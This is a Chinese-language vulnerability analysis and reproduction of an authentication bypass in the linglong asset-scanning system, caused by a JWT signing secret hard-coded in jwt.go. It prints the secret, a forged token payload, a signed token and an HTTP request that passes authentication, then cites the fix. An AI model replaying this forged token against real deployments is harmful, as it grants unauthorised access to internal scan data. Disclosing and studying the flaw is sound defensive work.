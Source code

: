 # 前言

GitHub上 awake1t/linglong 一款使用golang做后端,vue做前端的甲方资产巡航扫描系统.系统定位是发现资产，进行端口爆破。帮助企业更快发现弱口令问题。主要功能包括: 资产探测、端口爆破、定时任务、管理后台识别、报表展示.其当初还加入过知道创宇的404StarLink的星链计划.但是由于年久失修,最近被爆出认证绕过漏洞,其实这个洞在两年前的pull中就有人提出来了,其次根据jwt.go文件提交记录,最早可以追溯到四年前.

# 漏洞分析+复现

在 http[s]://github[.]com/awake1t/linglong/blob/e28f319a9bb5895453a507d759b7e83bb4b58f2c/pkg/utils/jwt.go#L10 中硬编码 jwt 密钥为 `213123dd1`.

![image](https://github.com/Mr-xn/RedTeam_BlueTeam_HW/assets/18260135/644f7cd5-d36a-4e86-af47-0572396a240c)

![image](https://github.com/Mr-xn/RedTeam_BlueTeam_HW/assets/18260135/3ff16e3a-0873-406a-8bb7-8b2af839a65d)

导致任意人都可以通过此密钥来伪造一个合法的 jwt token.从而通过系统认证.

而linglong的认证组成部分也在上面可以看到,因此我们可以伪造如下

```json
{
  "username": "linglong",
  "password": "123456",
  "exp": 1714068736,
  "iss": "linglong"
}
```

![image](https://github.com/Mr-xn/RedTeam_BlueTeam_HW/assets/18260135/af24d095-19e5-4169-8ed3-f21c465e5c37)

得到一个合法的token

`eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imxpbmdsb25nIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJleHAiOjE3MTQwNjg3MzYsImlzcyI6Imxpbmdsb25nIn0.rCCTJD_LF08XUwAxZhtOTS-eC3OOtdMAy08LpK1ngh8`
将其带入header的 Authorization 去请求主页面板的API接口

```http
GET /api/v1/dashboard HTTP/1.1
Host: 127.0.0.1:18000
Accept-Language: zh-CN,zh;q=0.9
Referer: http://127.0.0.1:8001/
Accept-Encoding: gzip, deflate, br, zstd
Origin: http://127.0.0.1:8001
Authorization: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Imxpbmdsb25nIiwicGFzc3dvcmQiOiIxMjM0NTYiLCJleHAiOjE3MTQwNjg3MzYsImlzcyI6Imxpbmdsb25nIn0.rCCTJD_LF08XUwAxZhtOTS-eC3OOtdMAy08LpK1ngh8
Accept: application/json, text/plain, */*

```

可以成功通过系统认证获取到数据

![image](https://github.com/Mr-xn/RedTeam_BlueTeam_HW/assets/18260135/2f5ad61b-48a4-4ac4-9ca4-96459ba5b8ba)

如果需要修复,可以参考 pull #75 进行修复.
